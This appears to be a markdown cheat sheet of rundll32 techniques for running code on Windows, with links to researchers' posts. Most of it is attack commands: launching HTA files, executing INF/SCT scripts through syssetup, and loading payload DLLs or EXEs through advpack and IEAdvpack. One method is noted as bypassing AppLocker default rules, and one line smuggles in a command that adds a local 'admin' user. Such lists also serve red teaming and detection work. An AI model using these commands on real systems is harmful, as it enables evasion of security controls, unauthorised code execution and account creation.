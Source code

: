 # Rundll32 commands for Windows
https://www.jesusninoc.com/2017/04/12/rundll32-commands-for-windows/

# Looking for other ways to launch your favorite HTA? Try these:
https://twitter.com/bohops/status/974043815655956481

```MS-DOS
rundll32.exe url.dll,OpenURL "local\path\to\harmless.hta"
rundll32.exe url.dll,OpenURLA "local\path\to\harmless.hta"
```

- Seems to bypass AppLocker Default Rules
- Does not handle actual Web URLs seamlessly

# SCT Execution Remote Via INFScript Useing ( SysSetup )
https://twitter.com/harr0ey/status/975350238184697857

InSide INFScript By @subTee Regsvr32 in INFScript

```MS-DOS
rundll32 syssetup,SetupInfObjectInstallAction DefaultInstall 128 C:\INFPS.inf
```

Raw INFScript Code ?
https://gist.github.com/homjxi0e/87b29da0d4f504cb675bb1140a931415

Video INFScript 
https://www.youtube.com/watch?v=R7rT63905i0

Leveraging INF-SCT Fetch & Execute Techniques For Bypass, Evasion, & Persistence
https://bohops.com/2018/02/26/leveraging-inf-sct-fetch-execute-techniques-for-bypass-evasion-persistence/

# rundll32
```MS-DOS
rundll32 zipfldr.dll, RouteTheCall calc.exe
rundll32 advpack.dll, RegisterOCX calc.exe
rundll32 advpack.dll, RegisterOCX "cmd.exe /c net user admin /add && rem .exe"
```

You looking out for that "RegisterOCX" function in IEAdvpack.dll?  

```MS-DOS
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.dll
rundll32.exe C:\windows\system32\IEAdvpack.dll,RegisterOCX C:\path\to\payload.exe
```
